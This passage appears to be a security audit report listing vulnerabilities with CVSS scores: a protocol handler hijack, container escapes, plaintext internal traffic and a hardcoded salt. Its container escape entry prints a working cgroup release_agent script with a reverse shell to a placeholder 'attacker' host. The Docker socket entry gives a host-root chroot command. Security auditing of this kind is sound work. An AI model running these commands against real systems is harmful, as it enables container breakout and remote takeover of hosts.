 #### VULN-UI-003: ui:// Protocol Handler Injection
- **CVSS v3.1:** 7.8 (AV:L/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H)
- **Details:** Custom protocol handler can be hijacked
- **Exploitation:** Register malicious ui:// handler to intercept requests

## 4. Infrastructure Security

### 4.1 Container Escape Vulnerabilities

#### VULN-INFRA-001: Privileged Container Execution
- **CVSS v3.1:** 8.8 (AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H)
- **Details:** Containers run as root without restrictions
- **Exploitation:**
```bash
# Container escape via /proc/self/exe
docker run --rm -it --privileged vulnerable-image sh
# Inside container
d=$(dirname $(ls -x /s*/fs/c*/*/r*))
mkdir -p $d/w
echo 1 > $d/w/notify_on_release
echo "#!/bin/sh\n/bin/bash -i >& /dev/tcp/attacker/4444 0>&1" > /exploit
chmod +x /exploit
echo $d/w > $d/release_agent
```

#### VULN-INFRA-002: Exposed Docker Socket
- **CVSS v3.1:** 9.9 (AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H)
- **Details:** Docker socket accessible from containers
- **Exploitation:**
```bash
# From within container with docker socket mounted
docker run -v /:/host -it alpine chroot /host
```

### 4.2 Network Security Issues

#### VULN-INFRA-003: Unencrypted Internal Communication
- **CVSS v3.1:** 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)
- **Details:** Service-to-service communication over HTTP
- **Impact:** Credentials and sensitive data transmitted in plaintext

## 5. Data Protection Testing

### 5.1 Encryption Vulnerabilities

#### VULN-DATA-001: Hardcoded Encryption Salt
- **CVSS v3.1:** 7.4 (AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **Location:** `/src/app/core/security.py:103`
- **Issue:** `salt=b'stable-salt'` allows rainbow table attacks
- **Exploitation:** Pre-compute hashes for common passwords

